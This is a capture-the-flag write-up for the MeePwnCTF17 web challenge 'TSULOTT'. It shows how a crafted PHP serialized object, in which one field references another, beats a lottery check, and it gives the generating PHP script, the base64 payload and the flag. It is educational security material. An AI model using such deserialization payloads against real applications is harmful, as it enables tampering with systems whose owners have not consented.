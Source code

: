 ```yaml
---
title: MeePwnCTF17 - TSULOTT (Web 100)
categories:
  - MeePwnCTF17
author_member: jokker
show_comments: false
---
```



> Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!!
> Remote: 128.199.190.23:8001

On the challenge website, we have three options:
* Generate a code with 6 numbers
* Enter the code to check if we have won the jackpot
* Showing the php code of the site by submitting *is_debug=1* as GET-parameter

If we submit any 6 numbers to the site, we get a base64 encoded string back:

```
Tzo2OiJPYmplY3QiOjI6e3M6NzoiamFja3BvdCI7TjtzOjU6ImVudGVyIjtzOjE3OiIwMSAwMiAwMyAwNCAwNSAwNiI7fQ==
```

Decoding this string gives us a represantation of an PHP serialized object:

```
O:6:"Object":2:{s:7:"jackpot";N;s:5:"enter";s:17:"01 02 03 04 05 06";}
```

Because of the source-code, we know that the we win the jackpot if the string *enter* equals the string *jackpot*. But jackpot is generated after we submit our numbers. So how can we solve this?

We are in control of the serialized object and luckely, PHP does support references, so we construct an object, where *enter* points to *jackpot* and like this, both hold the same value when checked.

```
<?php
class Object 
{ 
  var $jackpot;
  var $enter; 
} 

$lotto = new Object;
$lotto->jackpot = "01 02 03 04 05 06";
$lotto->enter =& $lotto->jackpot;

echo serialize($lotto);
?>
```

Running this script will give us the following serialized string:

```
O:6:"Object":2:{s:7:"jackpot";s:17:"01 02 03 04 05 06";s:5:"enter";R:2;}
```

And after base64 encoding it, we can submit the final string to the challenge site:

```
Tzo2OiJPYmplY3QiOjI6e3M6NzoiamFja3BvdCI7czoxNzoiMDEgMDIgMDMgMDQgMDUgMDYiO3M6NToiZW50ZXIiO1I6Mjt9
```

Yeesss, we won the jackpot :P

**MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}**